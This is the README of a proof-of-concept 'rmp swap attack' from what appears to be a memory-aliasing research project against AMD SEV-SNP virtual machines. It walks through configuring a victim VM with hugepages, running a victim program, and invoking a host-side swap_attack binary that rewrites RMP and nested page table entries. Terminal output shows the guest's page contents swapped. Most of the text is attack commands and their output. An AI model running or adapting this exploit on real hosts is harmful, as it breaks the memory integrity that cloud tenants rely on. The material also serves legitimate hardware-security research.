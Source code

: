 # rmp swap attack
POC for swapping the PFNs of two GFNs. For now, requires 2MB hugepages
inside the vm.
## on the vm
Configure 2MB huge pages by adding the following to the kernel cmdline
`hugepagesz=2M hugepages=2`. You need to reboot for the changes to take effect.

Afterwards, `/proc/meminfo` should look as follows
```
luca@sevvictim:~$ cat /proc/meminfo | grep -i huge
AnonHugePages:         0 kB
ShmemHugePages:        0 kB
FileHugePages:         0 kB
HugePages_Total:       2
HugePages_Free:        2
HugePages_Rsvd:        0
HugePages_Surp:        0
Hugepagesize:       2048 kB
Hugetlb:            4096 kB
```

Next, start the victim inside the VM with  
```
luca@sevvictim:~$ sudo ./badram-gpa-swap-victim 
[sudo] password for luca: 
Setting 2MB page A to 0 and 2 MB page B to 0xff
2MB page A (0) 0x49800000
2MB page A (0)_vaddr 0x7f5d2d000000
2MB page B (0xff) 0x6ee00000
2MB page B (0xff)_vaddr 0x7f5d2d200000
Do the remapping, then press enter
                                                   
First 64 bytes of 2MB page A (should now be 0xff instead of 0x00) : 
ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff 

First 64 bytes of 2MB page B (should now be 0x00 instead of 0xff) : 
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 

luca@sevvictim:~$ 

```

## on the host
It is assumed that `./edited-aliases.csv` contains the alias functions and that `0x97d00000 0xa82fffff` is the address of the rmp as reported by `dump-rmp-msrs.sh` (requires `msr-tools` to be installed).

`0x49800000 ` and `0x6ee00000` are the guest physical addresses of the buffers *A* and *B* from the victim application inside the VM


```
luca@horus:~/badram/binaries$ sudo ./swap_attack 0x97d00000 0xa82fffff ./edited-aliases.csv $(pidof qemu-system-x86_64) 0x49800000 0x6ee00000
hpa is 0x667a00000
hpa is 0x156000000
gpa1 0x49800000 hpa1 0x667a00000 4K aligned? 1 2MB aligned? 1
gpa2 0x6ee00000 hpa2 0x156000000 4K aligned? 1 2MB aligned? 1
SPTE for gpa1 is 0x667a00ee7, parsed hpa 0x667a00000
Setting gfn in rmp entry for gpa1 to 0x6ee00
We assume that data scrambling is disabled!
Original Entry: assigned=1 pagesize=1 immutable=0, gpa=0x49800 asid=3 vmsa=0 validated=1
Setting gfn entry in rmp for gpa2 to 0x49800
We assume that data scrambling is disabled!
Original Entry: assigned=1 pagesize=1 immutable=0, gpa=0x6ee00 asid=3 vmsa=0 validated=1


Changing npt for gpa1

SPTE for gpa1 is  0x156000ee7, parsed hpa 0x156000000
SPTE for gpa with 2mb align is 0x156000ee7, parsed hpa 0x156000000
luca@horus:~/badram/binaries$ 

```

